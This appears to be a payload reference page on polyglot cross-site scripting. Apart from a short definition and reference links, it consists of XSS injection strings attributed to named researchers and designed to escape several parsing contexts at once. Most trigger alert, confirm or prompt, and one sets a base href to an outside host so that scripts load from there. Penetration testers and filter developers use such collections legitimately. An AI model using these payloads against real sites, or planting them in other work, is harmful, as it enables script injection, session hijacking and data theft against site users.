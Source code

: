 # Polyglot XSS

A polyglot XSS is a type of cross-site scripting (XSS) payload designed to work across multiple contexts within a web application, such as HTML, JavaScript, and attributes. It exploits the application’s inability to properly sanitize input in different parsing scenarios.

* Polyglot XSS - 0xsobky
    ```javascript
    jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0D%0A//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
    ```

* Polyglot XSS - Ashar Javed
    ```javascript
    ">><marquee><img src=x onerror=confirm(1)></marquee>" ></plaintext\></|\><plaintext/onmouseover=prompt(1) ><script>prompt(1)</script>@gmail.com<isindex formaction=javascript:alert(/XSS/) type=submit>'-->" ></script><script>alert(1)</script>"><img/id="confirm&lpar; 1)"/alt="/"src="/"onerror=eval(id&%23x29;>'"><img src="http: //i.imgur.com/P8mL8.jpg">
    ```

* Polyglot XSS - Mathias Karlsson
    ```javascript
    " onclick=alert(1)//<button ‘ onclick=alert(1)//> */ alert(1)//
    ```

* Polyglot XSS - Rsnake
    ```javascript
    ';alert(String.fromCharCode(88,83,83))//';alert(String. fromCharCode(88,83,83))//";alert(String.fromCharCode (88,83,83))//";alert(String.fromCharCode(88,83,83))//-- ></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83)) </SCRIPT>
    ```

* Polyglot XSS - Daniel Miessler
    ```javascript
    ';alert(String.fromCharCode(88,83,83))//';alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//--></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>
    “ onclick=alert(1)//<button ‘ onclick=alert(1)//> */ alert(1)//
    '">><marquee><img src=x onerror=confirm(1)></marquee>"></plaintext\></|\><plaintext/onmouseover=prompt(1)><script>prompt(1)</script>@gmail.com<isindex formaction=javascript:alert(/XSS/) type=submit>'-->"></script><script>alert(1)</script>"><img/id="confirm&lpar;1)"/alt="/"src="/"onerror=eval(id&%23x29;>'"><img src="http://i.imgur.com/P8mL8.jpg">
    javascript://'/</title></style></textarea></script>--><p" onclick=alert()//>*/alert()/*
    javascript://--></script></title></style>"/</textarea>*/<alert()/*' onclick=alert()//>a
    javascript://</title>"/</script></style></textarea/-->*/<alert()/*' onclick=alert()//>/
    javascript://</title></style></textarea>--></script><a"//' onclick=alert()//>*/alert()/*
    javascript://'//" --></textarea></style></script></title><b onclick= alert()//>*/alert()/*
    javascript://</title></textarea></style></script --><li '//" '*/alert()/*', onclick=alert()//
    javascript:alert()//--></script></textarea></style></title><a"//' onclick=alert()//>*/alert()/*
    --></script></title></style>"/</textarea><a' onclick=alert()//>*/alert()/*
    /</title/'/</style/</script/</textarea/--><p" onclick=alert()//>*/alert()/*
    javascript://--></title></style></textarea></script><svg "//' onclick=alert()//
    /</title/'/</style/</script/--><p" onclick=alert()//>*/alert()/*
    ```


*  Polyglot XSS - [@s0md3v](https://twitter.com/s0md3v/status/966175714302144514)
    ![https://pbs.twimg.com/media/DWiLk3UX4AE0jJs.jpg](https://pbs.twimg.com/media/DWiLk3UX4AE0jJs.jpg)
    ```javascript
    -->'"/></sCript><svG x=">" onload=(co\u006efirm)``>
    ```

    ![https://pbs.twimg.com/media/DWfIizMVwAE2b0g.jpg:large](https://pbs.twimg.com/media/DWfIizMVwAE2b0g.jpg:large)
    ```javascript
    <svg%0Ao%00nload=%09((pro\u006dpt))()//
    ```

* Polyglot XSS - from [@filedescriptor's Polyglot Challenge](https://web.archive.org/web/20190617111911/https://polyglot.innerht.ml/)
    ```javascript
    // Author: crlf
    javascript:"/*'/*`/*--></noscript></title></textarea></style></template></noembed></script><html \" onmouseover=/*&lt;svg/*/onload=alert()//>

    // Author: europa
    javascript:"/*'/*`/*\" /*</title></style></textarea></noscript></noembed></template></script/-->&lt;svg/onload=/*<html/*/onmouseover=alert()//>

    // Author: EdOverflow
    javascript:"/*\"/*`/*' /*</template></textarea></noembed></noscript></title></style></script>-->&lt;svg onload=/*<html/*/onmouseover=alert()//>

    // Author: h1/ragnar
    javascript:`//"//\"//</title></textarea></style></noscript></noembed></script></template>&lt;svg/onload='/*--><html */ onmouseover=alert()//'>`
    ```

* Polyglot XSS - from [brutelogic](https://brutelogic.com.br/blog/building-xss-polyglots/)
    ```javascript
    JavaScript://%250Aalert?.(1)//'/*\'/*"/*\"/*`/*\`/*%26apos;)/*<!--></Title/</Style/</Script/</textArea/</iFrame/</noScript>\74k<K/contentEditable/autoFocus/OnFocus=/*${/*/;{/**/(alert)(1)}//><Base/Href=//X55.is\76-->
    ```


## References

- [Building XSS Polyglots - Brute - June 23, 2021](https://brutelogic.com.br/blog/building-xss-polyglots/)
- [XSS Polyglot Challenge v2 - @filedescriptor - August 20, 2015](https://web.archive.org/web/20190617111911/https://polyglot.innerht.ml/)